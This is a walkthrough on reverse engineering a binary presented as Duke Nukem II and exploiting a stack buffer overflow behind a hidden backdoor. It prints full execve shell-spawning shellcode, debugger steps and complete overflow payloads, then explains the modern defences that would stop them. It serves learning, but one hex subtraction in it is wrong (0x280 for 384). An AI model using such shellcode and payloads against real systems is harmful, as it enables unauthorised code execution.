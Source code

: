 ##########################################
Duke Nukem II
##########################################

Who is this for?
================

This walkthrough is for anyone interested in binary exploitation, reverse engineering, or retro game hacking. You’ll get the most out of it if you have some familiarity with:
- Basic x86-64 assembly
- Debugging tools (like Ghidra, GDB, or Eclipse)
- Concepts like buffer overflows and shellcode

Absolute beginners are welcome! I’ll explain each step and tool as we go.

.. image:: ../screenshots/projects/banner.png
   :alt: Duke Nukem II Banner

I decided to tear apart the Duke Nukem II binary recently, mostly for fun and to see if old games are as buggy as I remember. They are. Here’s a straight walk-through of how I found and exploited a buffer overflow to pop a shell, using both brute-force (sledgehammer) and precision (ballpeen hammer) attacks.

Finding and Understanding the Bug
=================================

I opened up the binary in Ghidra, a free reverse engineering tool that lets you analyze executable files and find vulnerabilities. By rummaging around, I found a secret function at offset ``0x002f52e2`` that only triggers if you hit “up” at certain computer terminals in-game. This backdoor eventually passes direct user input to another function at ``0x002f5774``, which does a ``memcpy`` from a buffer you control into a local buffer with a size of just 288 bytes. The best part? The copy size is passed in by the user too.

With the vulnerability identified, the next step is to see how we can exploit it in practice.

Offsets and buffer info:

- **Backdoor function:** FUN_002f52e2, offset ``0x002f52e2``
- **Vulnerable function:** FUN_002f5774, offset ``0x002f5774``
- **Destination buffer offset (in stack frame):** ``-0x188``
- **Source buffer offset:** ``-0x10``

Design flaw: The input parameter that sets the size of the copy is user-controlled, so it can go way past 288 bytes.

.. image:: ../screenshots/projects/Picture1.png
   :alt: Ghidra showing backdoor and vulnerable function entry points
   :align: center
   :height: 300px
.. image:: ../screenshots/projects/Picture2.png
   :alt: Ghidra showing backdoor and vulnerable function entry points
   :align: center
   :height: 300px

   *Showing how the backdoor links to the vulnerable routine.*

Sledgehammer Approach
=====================

Let’s start with the simplest method: overwhelming the buffer to see what happens.

The sledgehammer approach just blows past buffer boundaries and trashes the stack with a big chunk of data.

The Exploit
-----------

The buffer is 288 bytes, but the vulnerability lets us dump in much more. I sent 400 bytes:

- Shellcode to spawn a shell (shown below)
- Lots of NOPs (``\x90``)
- Filler bytes

**Shellcode used (63 bytes):**

::

   \x48\xbb\xff\x2f\x62\x69\x6e\x2f\x73\x68\x48\xc1\xeb\x08\x53\x48\x89\xe7
   \x48\x31\xc0\x50\x57\x48\x89\xe6\x48\x31\xd2\x48\x31\xc0\xb0\x3b\x0f\x05
   \x48\x89\xd7\xb0\x3c\x0f\x05\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90
   \x90\x90\x90\x90\x90\x90\x90\x90\x90\x90

Example sledgehammer buffer:

::

   \x48\xbb\xff\x2f\x62\x69\x6e\x2f\x73\x68\x48\xc1\xeb\x08\x53\x48\x89\xe7
   \x48\x31\xc0\x50\x57\x48\x89\xe6\x48\x31\xd2\x48\x31\xc0\xb0\x3b\x0f\x05
   \x48\x89\xd7\xb0\x3c\x0f\x05
   [lots of NOPs to fill]
   (total 400 bytes)

.. image:: screenshot2.png
   :alt: Stack/Memory dump with the 400-byte overflow in place
   :align: center
   :height: 300px

   *After running this, the stack is totally blown out.*

The result: usually a crash, but sometimes enough random luck to trip a shell.

Ballpeen Hammer Approach (Precise Shell Execution)
===================================================

While the sledgehammer method is quick, it’s unreliable. For a consistent exploit, we need a more targeted approach.

This method is more involved but reliable. It needs you to know exactly where to overwrite saved ``rbp`` and the return address so control lands exactly on your shellcode.

Step-by-Step
------------

1. **Debug setup**
   - Set up remote debugging with Eclipse
   - Launch ``gdbserver`` on port 2345
   - Trigger the in-game backdoor, then pause the program in the debugger

2. **Stack analysis**
   - First stack address (e.g. ``0x55555574933e``) is where backdoor is called
   - Second (e.g. ``0x5555557492a2``) is the wrapper calling the backdoor, which also calls the vulnerable function at ``0x555555749774``
   - Find call to ``memcpy``, breakpoint it
   - Step in, note:
     - ``rbp`` after stepping in: ``0x7fffffffc2f0``
     - ``rdi`` of buffer: ``0x7fffffffc170``
     - Copy size: ``0x7fffffffc2f0 - 0x7fffffffc170 = 0x280 = 384`` bytes

3. **Build the exploit buffer**

Now that we understand the stack layout, let’s craft the exact buffer needed to hijack execution.

   - Shellcode (again, full, uncut):

::

   \x48\xbb\xff\x2f\x62\x69\x6e\x2f\x73\x68\x48\xc1\xeb\x08\x53\x48\x89\xe7
   \x48\x31\xc0\x50\x57\x48\x89\xe6\x48\x31\xd2\x48\x31\xc0\xb0\x3b\x0f\x05
   \x48\x89\xd7\xb0\x3c\x0f\x05\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90
   \x90\x90\x90\x90\x90\x90\x90\x90\x90\x90

   (that's 63 bytes)

   - Spacer/NOP sled:
     384 (overflow window) - 63 (shellcode) = 321 bytes.
     So, ``\x90`` repeated 321 times.

   - rbp and return address overwrite:

     After the NOP sled, append packed 8-byte little-endian values for:

      * rbp after memcpy: ``0x7fffffffc2f0``
      * return address (should point into shellcode): ``0x7fffffffc170``

   This is how the final payload is laid out:

::

   [shellcode][321 x \x90][\xf0\xc2\xff\xff\xff\x7f\x00\x00][\x70\xc1\xff\xff\xff\x7f\x00\x00]

   Both values padded to 8 bytes; bytes written in little-endian order.

**Full buffer assembly (all bytes, no snipping):**

::

   \x48\xbb\xff\x2f\x62\x69\x6e\x2f\x73\x68\x48\xc1\xeb\x08\x53\x48\x89\xe7
   \x48\x31\xc0\x50\x57\x48\x89\xe6\x48\x31\xd2\x48\x31\xc0\xb0\x3b\x0f\x05
   \x48\x89\xd7\xb0\x3c\x0f\x05
   [321 x \x90]
   \xf0\xc2\xff\xff\xff\x7f\x00\x00
   \x70\xc1\xff\xff\xff\x7f\x00\x00

.. image:: screenshot3.png
   :alt: Buffer as seen in memory with NOP sled and shellcode
   :align: center
   :height: 300px

   *You can clearly see the shellcode, NOP sled, and overwritten addresses in the stack.*

Final Step
----------

With our payload ready, it’s time to put everything together and trigger the exploit in-game.

Once this buffer is submitted at the in-game prompt (after hitting the debug breakpoint), the function returns and control hits your shellcode reliably. A shell pops up.

.. image:: screenshot4.png
   :alt: In-game prompt where the buffer is submitted
   :align: center
   :height: 300px

   *This is where you paste the crafted buffer after suspending in the debugger.*

.. image:: screenshot5.png
   :alt: Terminal with real shell from inside Duke Nukem II process
   :align: center
   :height: 300px

   *Confirmation: shell access achieved.*

Why This Wouldn’t Work With Defenses
====================================

- **ASLR:** Randomizes where things are in memory every run, making it much harder to guess where to jump with your overflow.
- **Stack Canaries:** Inserts a secret value before the return address. Overwriting it with an overflow causes the process to crash instead of running your code.
- **Non-executable stack:** Even if you land execution on the stack, your shellcode won’t run unless it’s in an executable region.

Summary
=======

- The bug: User-controlled copy size overflows a fixed-size local buffer in ``memcpy``.
- The brute-force (sledgehammer) attack proves the overflow is real.
- The targeted (ballpeen hammer) attack gets you reliable shell access.
- Old binaries make this stuff easy; security defenses would shut it down today.

If you want to get into real-world exploitation, debugging, and reverse engineering, work on old games or similar simple binaries. You’ll get a real feel for how overflows happen and how to actually exploit them.

All shellcode shown here is complete and used exactly as described.

*Only hack stuff you own or have permission to test on. This is for learning and curiosity, nothing else.*